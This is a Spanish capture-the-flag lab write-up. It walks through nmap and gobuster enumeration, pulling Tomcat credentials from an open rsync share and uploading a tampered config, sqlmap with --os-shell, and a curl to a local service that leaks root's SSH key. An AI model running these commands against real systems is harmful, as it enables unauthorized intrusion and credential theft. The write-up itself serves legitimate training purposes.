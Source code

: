 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/143f82fd-de88-4b48-8b9e-cf4534e8d426)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/48cd2430-dead-4aeb-a32d-14d8672f6d84)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/1a9bac4d-f2b5-46f5-b887-523659d05f1f)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```

Una ves nos dio la `os-shell` no entablamos una ReverShell de esta forma

![image](https://github.com/user-attachments/assets/8b500aaa-a9af-4bbd-afab-6b09be1bf00c)

![image](https://github.com/user-attachments/assets/d307da36-fa03-473f-bbb4-2f8cabe9bbcd)


# Escalada **ROOT**

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/63efa394-6cdc-4d36-8188-f87a3b2b0f7f)

Haciendo un `getcap -r / 2>/dev/null` tenemos capibility (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capibility **cap_net_raw** asignada.

![image](https://github.com/user-attachments/assets/8acaf11c-26f0-49a6-b899-ea459a9bee17)

Lo que hacemos es tirar un `LinPeas` y observamos esto:

![image](https://github.com/user-attachments/assets/23a8f327-409a-4951-9962-67426f514288)

Entonces si hacemos un `curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12` obtenemos la id_rsa de `root`

![image](https://github.com/user-attachments/assets/bb4f2b03-6331-406e-ab36-7621d51aad7c)

Nos conectamos por **ssh** y listo

![image](https://github.com/user-attachments/assets/13b21ae1-741e-4218-8b9f-0c6ed31799f3)
![image](https://github.com/user-attachments/assets/a6783f38-646c-4412-9082-5e6d97c8b71c)







